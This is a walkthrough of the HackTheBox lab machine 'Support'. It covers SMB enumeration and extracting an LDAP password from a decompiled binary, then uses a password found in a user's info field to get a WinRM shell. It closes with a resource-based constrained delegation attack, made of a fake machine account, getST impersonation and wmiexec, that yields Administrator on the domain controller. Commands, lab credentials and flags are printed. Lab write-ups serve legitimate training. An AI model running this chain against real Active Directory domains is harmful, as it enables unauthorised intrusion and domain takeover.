







# Support - HackTheBox - Writeup
Windows, 20 Base Points, Easy



## Machine


 
## TL;DR

***User***: By enumerating the SMB shares we found the file ```UserInfo.exe.zip``` on ```support-tools``` share, By decompiling the file using ```dnSpy``` we found the password of ```ldap``` user, Enumerating the domain users using ```ldapsearch``` using ```ldap``` credentials and we found the password of ```support``` user on ```info``` field.

***Root***: By running ```BloodHound``` we can see that ```support``` user has ``` AddAllowedToAct``` permission, Using that we create a new machine account and impersonate to ```Administrator``` user.




## Support Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Support]
└──╼ $ nmap -sV -sC -oA nmap/Support 10.10.11.174
Starting Nmap 7.80 ( https://nmap.org ) at 2022-08-12 16:35 IDT
Unable to split netmask from target expression: "nmap/Support"
Nmap scan report for 10.10.11.174
Host is up (0.12s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-12 13:35:41Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=8/12%Time=62F65731%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-08-12T13:38:05
|_  start_date: N/A
5985/tcp open  wsman
```

By enumerating the SMB shares we can see the following:
```console
┌─[evyatar@parrot]─[/hackthebox/Support]
└──╼ $ smbclient -L 10.10.11.174
Enter WORKGROUP\user's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available

```

Let's observe the ```support-tools``` share:
```console

```

Let's get the ```UserInfo.exe.zip``` file.

By unzip this file we can see the following content:
```console

```

Let's open the ```UserInfo.exe``` file using [dnSpy](https://github.com/dnSpy/dnSpy).

By observing the classes we found the following class ```Protect```:



We can run the binary and set a breakpoint on ```getPassword()``` method to get the decrypted password.

By running the binary on ```cmd``` we can see it's required the following parameters:
```console
Z:\Userinfo>UserInfo.exe

Usage: UserInfo.exe [options] [commands]

Options:
  -v|--verbose        Verbose output

Commands:
  find                Find a user
  user                Get information about a user
```

Let's run it as follow: ```UserInfo.exe user -username Administrator```:



We need to add a breakpoint on ```LdapQuery``` and by running it we can see the password:



As we can see, the password is: ```nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```.

The function ```DirectoryEntry```is defined as ```public DirectoryEntry(string path, string username, string password)```, meaning that ```"support\\ldap"``` is the user name.

Let's use ```ldapsearch``` to enumerate on domain users:
```console
┌─[evyatar@parrot]─[/hackthebox/Support]
└──╼ $ ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb'
...
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 5
codePage: 0
countryCode: 0
badPasswordTime: 133054975963857210
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
...
```

As we can see, The ```info``` field of the user ```support``` contains the password ```Ironside47pleasure40Watchful```.

Let's use ```evil-winrm``` using ```support``` credentials:
```console
┌─[evyatar@parrot]─[/hackthebox/Support]
└──╼ $ evil-winrm -i support.htb -u support -p Ironside47pleasure40Watchful
Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\support\Documents> 
*Evil-WinRM* PS C:\Users\support\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\support\Desktop> dir


    Directory: C:\Users\support\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         8/20/2022  11:38 AM             34 user.txt


*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
1aa788a03886045ca23e5c4ea63205f3

```

And we get the user flag ```1aa788a03886045ca23e5c4ea63205f3```.


### Root

Let's run ```bloodhound``` as follows:
```console
┌─[evyatar@parrot]─[/hackthebox/Support]
└──╼ $ python3 bloodhound.py -c all -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -gc dc.support.htb -ns 10.10.11.174 --zip
INFO: Found AD domain: support.htb
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 20 users
INFO: Found 52 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 12S
INFO: Compressing output into 20220820234224_bloodhound.zip
```

By running ```BloodHound``` we can see the following:



As we can see, ```support``` user have [AddAllowedToAct](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#addallowedtoact) permission to the machine ```Management.support.htb```.

We can abuse it using the following article[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution).

First, We need to load the following PS modules:
1. [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
2. [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)


```powershell
*Evil-WinRM* PS C:\Users\support\Documents> dir


    Directory: C:\Users\support\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         8/23/2022   5:36 AM         135587 Powermad.ps1
-a----         8/23/2022   5:34 AM         770280 PowerView.ps1

*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\Powermad.ps1
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\PowerView.ps1
```

Next, Let's now create a new computer object for our computer ```FAKE01```  - this is the computer that will be trusted by our target computer later on:
```powershell
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = FAKE01$
Verbose: [+] Distinguished Name = CN=FAKE01,CN=Computers,DC=support,DC=htb
[+] Machine account FAKE01 added
```

Let's get the SID of the created machine:
```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer fake01 | Select objectsId

objectsid
---------
S-1-5-21-1677581083-3380853377-188903654-5101
```

Create a new raw security descriptor for the ```FAKE01``` computer principal:
```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5101)"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
```

Applying the security descriptor bytes to our ```dc```:
```powershell
*Evil-WinRM* PS C:\Users\support\Documents> hostname
dc
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
Verbose: [Get-DomainSearcher] search base: LDAP://DC=support,DC=htb
Verbose: [Get-DomainObject] Extracted domain 'support.htb' from 'CN=DC,OU=Domain Controllers,DC=support,DC=htb'
Verbose: [Get-DomainSearcher] search base: LDAP://DC=support,DC=htb
Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=CN=DC,OU=Domain Controllers,DC=support,DC=htb)))
Verbose: [Set-DomainObject] Setting 'msds-allowedtoactonbehalfofotheridentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0 36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 27 219 253 99 129 186 131 201 230 112 66 11 237 19 0 0' for object 'DC$'
```

Next, Let's create Service-Ticket of ```Administrator```  using [Impacket-getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py):
```console
┌─[evyatar@parrot]─[/hackthebox/Support]
└──╼ $ python3 ./getST.py support.htb/fake01:123456 -dc-ip 10.10.11.174 -impersonate administrator -spn www/dc.support.htb
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

We can use this ticket to connect with ```wmiexec``` and become ```Administrator```:
```console
┌─[evyatar@parrot]─[/hackthebox/Support]
└──╼ $export KRB5CCNAME=administrator.ccache
┌─[evyatar@parrot]─[/hackthebox/Support]
└──╼ $ python3 ./wmiexec.py support.htb/administrator@dc.support.htb -no-pass -k
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
support\administrator

C:\>type Users\Administrator\Desktop\root.txt
ceb3f224913bd884d05d3645a3994cdc
```

And we get the root flag ```ceb3f224913bd884d05d3645a3994cdc```.
